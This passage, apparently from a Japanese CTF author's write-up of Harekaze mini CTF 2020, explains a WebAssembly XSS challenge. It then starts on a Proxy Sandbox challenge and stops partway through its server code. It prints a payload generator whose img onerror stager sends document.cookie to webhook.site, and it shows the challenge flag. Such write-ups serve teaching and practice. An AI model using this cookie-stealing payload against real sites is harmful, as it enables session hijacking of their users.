 あとは Cookie を盗み出すような JavaScript コードを実行できるペイロードを作ればよさそうです。以下の JavaScript コードを実行して出力されたペイロードを XSS bot に投げるとフラグが得られました。

```javascript
// Aimg src=x onerror=eval(decodeURIComponent(location.search.slice(1)))A
const program = '----[---->+<]>++.[--->+<]>--.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[->++<]>.[---->+<]>++.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.>--[----->+<]>-.[--->+<]>-.[->+++<]>-.+++++++++++.[--->+<]>++++.+[--->+<]>+.+.--.++++++++++++.-----------.+.>-[--->+<]>.---.---------.------.+[--->+<]>+++.--.+++.-.-.---------.+++++++++.++++++.+[--->+<]>+.----[->+++<]>.+++.------------.--.--[--->+<]>-.-----------.++++++.-.[----->++<]>++.[--->++<]>-.++++[->+++<]>.----.--[--->+<]>---.++++[->+++<]>+.+++++.---[->+++<]>-.[--->++<]>-.-------.---.------.++.--[->+++<]>-.+++++++++.--------...+[-->+++<]>++.' +
                '<'.repeat(74) + '-'.repeat('A'.charCodeAt(0) - '>'.charCodeAt(0)) +
                '<'.repeat(69) + '-'.repeat('A'.charCodeAt(0) - '<'.charCodeAt(0))
console.log('?(new Image).src=["//webhook.site/…?",document.cookie]#' + encodeURIComponent(program));
```

```
HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}
```

---

Pwn + Web 問です。WebAssembly での Pwn の過去問として CODE BLUE CTF 2018 Quals の [Secret Mailer Service 2.0](http://charo-it.hatenablog.jp/entry/2018/08/07/112518#Secret-Mailer-Service-20-pwn) や HackTM CTF Finals 2020 の [Widmanstätten](https://ptr-yudai.hatenablog.com/entry/2020/12/16/005059#Widmanst%C3%A4tten---482pts) が挙げられますが、それらの問題ほど難しくない簡単なものも作ってみたいという気持ちがあり、このような単純な範囲外アクセスを使う問題を作りました。

`location.search` などに Cookie を盗み出す JavaScript コードを仕込んで、それを実行する stager のようなペイロードを作ることで文字数を抑えるという流れを想定していました。Brainf\*ck のコードゴルフを強いる意図で実行できる文字数を 1000 文字以内に制限したというわけではありません。

が、XSS bot のログを見るとほとんどのチームがコードゴルフによって stager なしに解いており、それなら中途半端な文字数の制限は設けるべきでなかったなあと思っています。アンケートでもこの問題について「解くのが面倒なだけ」「コードゴルフはしたくなかった」といったご意見をいただいていて、もう少し工夫すべきでした。

## [Misc 322] Proxy Sandbox (7 solves)
> 私は秘密を守るのに Proxy が便利だと思っています。
> 
> (URL)
> 
> ---
> 
> I think Proxy can be used for protecting secrets.
> 
> (URL)
> 
> ---
> 
> 想定難易度: medium-hard  
> 添付ファイル: [proxy-sandbox.zip](../files/20201227-harekaze-mini-ctf-2020/proxy-sandbox.zip)

与えられたソースコードを見てみましょう。

```javascript
const fastify = require('fastify');
const fs = require('fs');
const path = require('path');
const pug = require('pug');
const vm = require('vm');

const app = fastify({ logger: true });
app.register(require('point-of-view'), {
  engine: { pug },
  root: path.join(__dirname, 'view')
});
app.register(require('fastify-static'), {
  root: path.join(__dirname, 'static'),
```
